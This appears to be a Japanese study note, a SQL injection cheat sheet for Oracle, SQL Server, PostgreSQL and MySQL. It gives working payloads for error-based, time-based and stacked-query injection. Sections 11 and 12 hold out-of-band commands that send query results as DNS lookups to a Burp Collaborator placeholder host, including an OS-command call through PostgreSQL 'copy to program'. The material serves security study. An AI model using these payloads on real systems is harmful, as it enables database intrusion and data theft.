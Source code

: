 
Date: 2025-09-18
Tags: 
Links: [[WSA]], [[SQL]]

***

## **1. 文字列連結（String concatenation）**

```sql
-- Oracle / PostgreSQL
'foo' || 'bar'

-- Microsoft SQL Server
'foo' + 'bar'

-- MySQL (隣接文字列、または関数)
'foo' 'bar'       -- 注意: 文字列同士にスペース
CONCAT('foo','bar')
````


## **2. 部分文字列の取得（Substring）**

オフセットは 1 ベース（1 が最初の文字）。

```
-- 返り値: 'ba'
-- Oracle / PostgreSQL / MySQL / Microsoft
SUBSTR('foobar', 4, 2)
SUBSTRING('foobar', 4, 2)
```


## **3. コメント（クエリの切り取り）**

インジェクションで元のクエリの残りをコメント化して無効化する際に使います。DB 方言に注意。

```sql
-- Oracle / PostgreSQL / Microsoft: line comment (多くは末尾に空白が必要)
-- comment

/* block comment */
```

```sql
# MySQL の行コメント（MySQL 特有）
# comment
-- comment   -- MySQL/Postgres 等では "-- " の後にスペースが必要
```


## **4. DB のバージョン判定（Database version）**

DB 種別・バージョンにより有効なペイロードが違うためまず調べます。

```sql
-- Oracle
SELECT banner FROM v$version;
SELECT version FROM v$instance;

-- Microsoft SQL Server
SELECT @@version;

-- PostgreSQL
SELECT version();

-- MySQL
SELECT @@version;
```


## **5. データベースの中身確認（テーブル／カラム列挙）**

情報スキーマ等を使ってテーブルやカラムを列挙します。

```sql
-- Oracle
SELECT * FROM all_tables;
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE';

-- Microsoft / PostgreSQL / MySQL (information_schema)
SELECT * FROM information_schema.tables;
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```


## **6. 条件付きエラー（Conditional errors）**

ブール条件が真のときにエラーを発生させ情報を漏らす手法（error-based / conditional）。

```sql
-- Oracle (ゼロ除算強制)
SELECT CASE WHEN (YOUR-CONDITION) THEN TO_CHAR(1/0) ELSE NULL END FROM dual;

-- Microsoft SQL Server
SELECT CASE WHEN (YOUR-CONDITION) THEN 1/0 ELSE NULL END;

-- PostgreSQL
1 = (SELECT CASE WHEN (YOUR-CONDITION) THEN 1/(SELECT 0) ELSE NULL END);

-- MySQL
SELECT IF(YOUR-CONDITION,(SELECT table_name FROM information_schema.tables),'a');
```


## **7. エラーメッセージでのデータ抽出（Visible error messages）**

型変換や関数でエラーを誘発し、エラーメッセージ内に値を露出させます（DB ごとに異なる）。

```sql
-- Microsoft (型変換エラー例)
SELECT 'foo' WHERE 1 = (SELECT 'secret'); 
-- Conversion failed when converting the varchar value 'secret' to data type int.

-- PostgreSQL (CAST の例)
SELECT CAST((SELECT password FROM users LIMIT 1) AS int);
-- invalid input syntax for integer: "secret"

-- MySQL (XPATH/EXTRACTVALUE 技)
SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')));
-- XPATH syntax error: '\secret'
```

## **8. バッチ（スタック）クエリ（Batched / Stacked queries）**

複数のクエリ文を連結して実行。結果は最初のクエリしか返らないことが多く、主にブラインド用途で利用。

```sql
-- Microsoft / PostgreSQL / MySQL
QUERY-1; QUERY-2;
```

※ Oracle は通常スタッククエリをサポートしません。MySQL では API により制限される場合あり。


## **9. 時間遅延（Time delays）**

```sql
-- 10 秒の遅延
-- Oracle
dbms_pipe.receive_message(('a'),10)

-- Microsoft SQL Server
WAITFOR DELAY '0:0:10'

-- PostgreSQL
SELECT pg_sleep(10)

-- MySQL
SELECT SLEEP(10)
```


## **10. 条件付き時間遅延（Conditional time delays）**

条件が真のときだけ遅延させることでビット抽出などに使います。

```sql
-- Oracle
SELECT CASE WHEN (YOUR-CONDITION) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual;

-- Microsoft
IF (YOUR-CONDITION) WAITFOR DELAY '0:0:10';

-- PostgreSQL
SELECT CASE WHEN (YOUR-CONDITION) THEN pg_sleep(10) ELSE pg_sleep(0) END;

-- MySQL
SELECT IF(YOUR-CONDITION,SLEEP(10),'a');
```

## **11. DNS ルックアップ（Out-of-band / OAST）**

DB による外部 DNS ルックアップを誘発し、Burp Collaborator などで受信を確認してデータを引き出す高度手法。

```sql
- Oracle（XXE や UTL_INADDR、環境による）
    
- SQL Server: exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
    
- PostgreSQL: copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'（関数で外部コマンド実行）
    
- MySQL（Windows 環境）: LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a') 等
```

  
> 実行方法や成功可否は DB のパッチ状況・権限に強く依存します。


## **12. DNS でのデータ exfiltration（データを DNS 名に組み込む）**


クエリ結果を DNS 名に埋めて外部へ送る。Burp Collaborator と組み合わせて受信を確認します。

```sql
-- Oracle (例: XML 外部エンティティを利用)
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR/"> %remote;]>'),'/l') FROM dual;

-- SQL Server (例)
declare @p varchar(1024);
set @p=(SELECT YOUR-QUERY-HERE);
exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"');

-- PostgreSQL (関数作成して nslookup 呼び出し)
create or replace function f() returns void as $$
declare c text; p text;
begin
 SELECT into p (SELECT YOUR-QUERY-HERE);
 c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
 execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```

---

## **13. 実用的なポイント（短く）**

- **まず DB の種類とバージョンを特定する**（攻撃の文法や有効な関数が DB 依存のため）。
    
- **列数・型を合わせる**（UNION 攻撃時）。
    
- **コメント (--, /* */, #) の扱いは DB による**（-- の後にスペースが必要な場合がある）。
    
- **サブクエリは複数行を返すとエラー**（LIMIT 1 などで対処）。
    
- **エラーメッセージをそのまま返すアプリは情報漏洩リスクが高い**（error-based injection に利用される）。
    
- **Out-of-band 技術（DNS/Collaborator）は最も強力だが、DB の権限や環境に依存**。
    
***
# References